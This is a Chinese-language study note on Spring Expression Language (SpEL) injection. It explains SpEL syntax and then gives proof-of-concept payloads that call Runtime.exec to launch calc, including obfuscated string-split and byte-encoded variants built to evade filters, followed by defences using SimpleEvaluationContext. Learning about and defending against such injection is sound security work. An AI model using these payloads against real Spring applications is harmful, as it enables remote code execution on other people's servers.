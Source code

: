 OGNL(struts2)、SpEL(spring)、MVEL、EL、Fel、JSTL+EL等
## **Spring的SpEL表达式注入**
<https://xie.infoq.cn/article/66d003327e05ab4528fca5a41>
```
把字符串当做代码执行。
数学表达式执行。
配置文件解析：SpEL可以解析配置文件中的动态值，引用其他属性或方法的值，实现配置的动态性。
SpEL通常用在Spring框架的某些特定场景中，比如在配置文件中通过`${...}`使用属性占位符，或者在注解中实现复杂的逻辑，例如`@Conditional`注解。
```

当集成的spring-boot-starter-web依赖后，就可以自动使用。
关键词：StandardEvaluationContext()；
```
String spel ="T(java.lang.Runtime).getRuntime().exec(\"calc\")"; 
//T()包裹后可以直接调用静态方法和静态属性。
ExpressionParser parser=new SpelExpressionParser();
Expression expression=parser.parseExpression(spel);
EvaluationContext context=new StandardEvaluationContext();
expression.getValue(context);

```

CVE复现：<https://cloud.tencent.com/developer/article/2144995>
防御：使用时做白名单，只有需要的字符串才能当作代码执行。

# SpEL参考文档
- https://cloud.tencent.com/developer/article/1676200
- https://www.cnblogs.com/xfeiyun/p/16914131.html
- https://juejin.cn/post/7117839866523549710#heading-2
# AOP讲解
- https://www.liaoxuefeng.com/wiki/1252599548343744/1266265125480448
- https://pdai.tech/md/spring/spring-x-framework-aop.html#google_vignette

# SpEl + AOP 实现日志记录
- https://blog.csdn.net/ke7025/article/details/122185525

# SpEL 注入
<https://www.kingkk.com/2019/05/SPEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5-%E5%85%A5%E9%97%A8%E7%AF%87/>

# SpEL表达式 #{} 和 {} 和 # 和 '' 的使用
1. #{} 表达式
   #{} 用于在 Spring 配置文件中表示需要解析的 SpEL 表达式。主要用于注解、XML 配置和属性文件中，通常在需要动态计算的场景下使用。
```java 
@Value("#{systemProperties['user.home']}")
private String userHome;
```
2. `#` 符号   
`#` 符号在 SpEL 表达式中用于引用变量或方法。通常在解析上下文中使用，以引用方法、属性或在表达式中定义的变量。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext context = new StandardEvaluationContext();
context.setVariable("number", 42);

Integer number = parser.parseExpression("#number").getValue(context, Integer.class);
```
3. ` '' `字符串  
   用于在 SpEL 表达式中表示字符串文字。字符串文字在 SpEL 表达式中必须用单引号括起来，以区分其他类型的值（如数字、变量等）。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
String result = parser.parseExpression("'Hello ' + 'World'").getValue(String.class);
```
4. `{}`   
    花括号 {} 通常用于在集合、数组或映射中表示集合字面量。以下是一些具体的用法和示例。
# Spel注入  
存在Spel注入的前提是存在SpEl相关的库，如下是相关的库
```java
org.springframework.expression.spel.standard
SpelExpressionParser
parseExpression
expression.getValue();
expression.setValue();
```
 SpEl解析SpEL提供了两套不同的接口，分别是"SimpleEvaluationContext"和"StandardEvaluationContext"。其中"SimpleEvaluationContext" 
 仅支持简单的表达式，抛弃了Java类型引用，构造函数，相较比较安全。而"StandardEvaluationContext" 支持复杂的表达式，如方法调用、属性访问等。
 如果在不指定EvaluationContext的情况下，SpEl默认使用"StandardEvaluationContext"。
 ```java
// 执行exec
T(java.lang.Runtime).getRuntime().exec("calc.exe");
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe");

 ```

## 构造payload
```java
T(java.lang.Ru" + "ntime).getRuntime().exec('calc');
String spel = "T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[]))" +".invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")" +".getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass()" +".forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"cmd\",\"/C\",\"calc\"})\n";
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')")";
T(java.lang.Runtime).getRuntime().exec("calc")
T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))
```

# Spel 防御
##  使用 SimpleEvaluationContext
```java
SpelExpressionParser parser = new SpelExpressionParser();
SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
expression.setValue(context, "payload");
```

##  白名单过滤
略
